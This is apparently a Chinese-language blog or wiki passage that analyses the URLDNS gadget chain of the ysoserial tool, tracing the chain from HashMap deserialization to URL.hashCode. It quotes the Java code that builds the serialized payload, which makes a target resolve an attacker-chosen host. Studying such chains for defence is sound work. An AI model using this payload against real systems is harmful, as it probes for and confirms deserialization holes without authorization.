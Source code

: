 URLDNS的gadget chains为：

```text
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

我们一步一步来看，首先我们生成序列化文件的类是一个HashMap，因此在反序列化的过程中，会调用HashMap的readObject方法。而在该方法中，有一个putVal的操作。

![image-20220312225915232](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312225915232.png)

在putVal方法的参数上，计算了hashMap对应的key的hash值。在计算hash的时候，调用的是对应key的hashCode方法。

![image-20220312230024981](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312230024981-7097225.png)

那么如果我们hashMap中的key是一个URL对象，那么调用的就是URL的hashCode方法了。在URL的hashCode方法中有一点非常重要，就是`hashCode!=-1`，意思是在这之前没有调用过该对象的计算hash的方法。这也是ysoserial中将URL对象的hashCode设置为-1的原因。如果hashCode等于-1，那么就会调用`handler.hashCode`方法，并且给这个hashCode方法传入当前的URL对象。

![image-20220312230145894](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312230145894.png)

那么，这个handler是什么呢？我们看URL的构造方法可以发现，handler是我们通过构造函数创建对象时传入的。

![image-20220312230730640](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312230730640.png)

传入的对象是URLStreamHandler的子类，ysoserial中创建了一个类，继承了该类。为什么这么做我们后面再说。

```java
static class SilentURLStreamHandler extends URLStreamHandler {

  protected URLConnection openConnection(URL u) throws IOException {
    return null;
  }

  protected synchronized InetAddress getHostAddress(URL u) {
    return null;
  }
}
```

那么为什么要创建这个类呢？我们上面说到，会调用我们传入的对象的hashCode方法。我们可以看URLStreamHandler的hashCode方法。重点就在getHostAddress方法中。在该方法中调用了`InetAddress.getByName(host)`，发起了DNS请求，而传入的host的值是通过URL对象的getHost获取的，getHost方法返回了成员变量host的值，这个值也是在创建URL实例时传入构造器的。

![image-20220312231028570](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220312231028570.png)

因此再来回顾ysoserial中的URLDNS中getObject方法。

```java
public Object getObject(final String url) throws Exception {

  URLStreamHandler handler = new SilentURLStreamHandler();

  HashMap ht = new HashMap(); 
  URL u = new URL(null, url, handler); 
  ht.put(u, url); 

  Reflections.setFieldValue(u, "hashCode", -1); 
  return ht;
}
```
